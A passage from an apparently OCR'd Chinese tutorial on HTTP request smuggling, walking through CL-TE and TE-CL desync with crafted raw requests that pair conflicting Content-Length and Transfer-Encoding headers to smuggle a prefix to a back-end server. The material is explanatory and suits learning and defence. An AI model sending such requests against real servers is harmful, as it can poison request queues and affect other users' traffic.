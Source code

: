 连续发送几次请求就可以获得响应。  
**攻击流程**：  
由于前端服务器处理`Content-Length`，所以这个请求对于它来说是一个完整的请求，请求体的长度为 6，也就是

```plain
0\r\n
\r\n
a
```

当请求包经过代理服务器转发给后端服务器时，后端服务器处理`Transfer-Encoding`，当它读取到

```plain
0\r\n
\r\n
```

认为已经读取到结尾了。  
但剩下的字母`a`就被留在了缓冲区中，等待下一次请求。当我们重复发送请求后，发送的请求在后端服务器拼接成了类似下面这种请求：

```plain
aPOST / HTTP/1.1\r\n
Host: test.com\r\n
......
```

服务器在解析时就会产生报错了，从而造成 HTTP 请求走私。

#### TE-CL

TE-CL，就是当收到存在两个请求头的请求包时，前端代理服务器处理`Transfer-Encoding`请求头，后端服务器处理`Content-Length`请求头。  
**构造请求示例**：

```plain
POST / HTTP/1.1\r\n
Host: test.com\r\n
......
Content-Length: 4\r\n
Transfer-Encoding: chunked\r\n
\r\n
12\r\n
aPOST / HTTP/1.1\r\n
\r\n
0\r\n
\r\n
```

**攻击流程**：  
前端服务器处理`Transfer-Encoding`，当其读取到

```plain
0\r\n
\r\n
```

认为是读取完毕了。  
此时这个请求对代理服务器来说是一个完整的请求，然后转发给后端服务器，后端服务器处理`Content-Length`请求头，因为请求体的长度为`4`.也就是当它读取完

```plain
12\r\n
```
